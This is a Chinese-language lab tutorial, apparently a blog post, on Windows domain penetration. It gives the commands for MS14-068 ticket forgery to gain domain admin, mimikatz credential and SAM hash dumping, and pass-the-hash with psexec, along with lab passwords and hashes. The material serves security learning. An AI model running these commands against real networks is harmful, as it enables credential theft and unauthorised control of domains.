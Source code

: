 ```yaml
---
title: 域渗透入门（二）
categories:
- WindowDomain
tags:
- WindowDomain
---
```


## 参考资料
- 乌云文章：《使用Hash直接登录Windows》、
- [维基百科Pass_the_hash的定义](https://en.wikipedia.org/wiki/Pass_the_hash)
- [metasploit mimikatz](https://www.fujieace.com/metasploit/mimikatz.html)


## 录制的视频教程

 [域渗透实践篇（二）](https://www.bilibili.com/video/BV1Qz411B7BQ)
1. 域信息搜集
2. ms14-068 域普通用户提权到域管理员

 [域渗透实践篇（三）](https://www.acfun.cn/v/ac15162313)
1. pass the hash票据传递攻击

## Kerberos域用户提权漏洞ms14-068

### 准备域内普通用户权限（以及DC未打补丁）

1. 域控添加一个user用户

2. 192.168.1.3 计算机添加user用户
```
net user user admin!@#45      #添加一个用户user，添加密码
---
注销管理员用户，登陆用户user
用户名：SRV-WEB-KIT\user
密码：admin!@#45
```
3. 测试域普通用户与域管理员区别

4. 生成高权限票据
```
python ms14-068.py -u whale@0day.org -s  S-1-5-21-1812960810-2335050734-3517558805-1178 -d 192.168.1.131 -p qwe123$%
 
需要普通域用户名称
普通域用户sid
普通域用户明文密码或者hash
```
5. mimikatz导入hash
```
mimikatz.exe
kerberos::list			#列出内存中的票据信息
kerberos::purge         #清除内存中的票据信息
kerberos::ptc TGT_whale@rootkit.org.ccache(生成的高权限票据全名)	#导入高权限票据到内存，获得域管理员权限

```
## 票据传递
```
mimikatz_command -f sekurlsa::logonPasswords
导出登陆的密码

python /usr/share/doc/python-impacket/examples/psexec.py Administrator@192.168.1.2 cmd.exe

使用密码admin!@#45，成功连接

使用ntlm hash，ccef208c6485269c20db2cad21734fe7，连接失败

有两种可能 
1. 工具psexec.py，只能使用明文密码连接
2. hash出错，不是ccef208c6485269c20db2cad21734fe7, 而是其他hash
3. windows 2012 R2不支持pass the hash
```
### NT hash、LM hash、NTLM hash
LM hash的全名LAN Manager Hash，容易被破解。因此windows visa与winSever2008之后的版本默认禁用了LM hash。
NTLM hash取代了LM hash，安全性更高，从windowsSever2003开始，默认使用NTLM hash。

所说的NT hash就是NTLM hash，有些文档这么称呼，我还以为是两种不同的加密方式，只是称呼不同而已。

### mimikatz提权ntlm hash
```
mimikatz.exe
log
lsadump::sam /sam:sam.hiv /system:sys.hiv
```
### 查看DC机器与Web机器的hash是否一致
```
修改web机器密码：net user administrator qwe123$%
保持这个密码与DC一致

DC (192.168.1.131): 4b211aa32bcd009f4d46f52438fe433d
WEB(192.168.1.130)：4b211aa32bcd009f4d46f52438fe433d

privilege::debug
sekurlsa::pth /user:administrator /domain:0day.org /ntlm:4b211aa32bcd009f4d46f52438fe433d
```
---
```
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
一行命令，将结果保存到log.txt
```
---
```
sekurlsa::logonpasswords
dir \\OWA2010SP3\C$
```
